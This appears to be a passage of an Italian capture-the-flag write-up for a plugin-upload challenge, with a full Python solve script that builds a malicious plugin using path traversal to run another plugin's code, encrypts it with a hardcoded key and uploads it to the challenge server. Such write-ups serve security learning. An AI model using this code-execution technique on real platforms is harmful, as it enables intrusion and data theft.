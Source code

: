 In breve, `init.py` stampa la flag su stdout quando viene eseguito. Il server esegue l’`init.py` di un plugin durante l’upload (`/upload`). L’idea è sfruttare questo comportamento da un altro plugin:

* Per prima cosa, dobbiamo scoprire l’UID lato server del widget `flag`, così da conoscerne il nome della directory.
* Poi, dobbiamo creare un plugin malevolo il cui `init.py` usi un path traversal relativo (`../{uid}/init.py`) per eseguire l’`init.py` del flag plugin tramite `subprocess` e catturarne lo stdout.
* Infine, scrivere quello stdout in `index.html`, che la piattaforma ci renderizzerà.

Perché l’exploit funzioni in modo affidabile, usare la struttura di cartelle seguente.

#### Struttura delle cartelle dell’exploit

```text
.
├── plug
│   ├── icon.png (vuoto)
│   ├── init.py
│   └── plugin_manifest.json
└── solve.py
```

##### Soluzione in Python

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os, requests, bs4, subprocess

PORT = 9035
URL = 'http://ctf.ac.upt.ro:' + str(PORT) + '/'

s = requests.Session()

soup = bs4.BeautifulSoup(s.get(URL).text, "html.parser")
img = soup.find("img", alt="Flag")
flag = img["src"].split("/")[2]

print("Flag uid:", flag)

exploit = f"""
import subprocess

result = subprocess.run(['python', '../{flag}/init.py'], capture_output=True, text=True)
with open('index.html', 'w') as f:
    f.write(result.stdout)
"""
with open("plug/init.py", "w") as f:
    f.write(exploit)

subprocess.run(['zip', '-r', '../plug.zip', '.'], check=True, cwd='plug')

KEY = b"SECRET_KEY!123456XXXXXXXXXXXXXXX"

with open("plug.zip", "rb") as f:
    data = f.read()

iv = os.urandom(16)
cipher = AES.new(KEY, AES.MODE_CBC, iv)
ciphertext = cipher.encrypt(pad(data, AES.block_size))

with open("myplugin.plugin", "wb") as f:
    f.write(iv + ciphertext)

s.post(URL + 'upload', files={"file": open("myplugin.plugin", "rb")})

```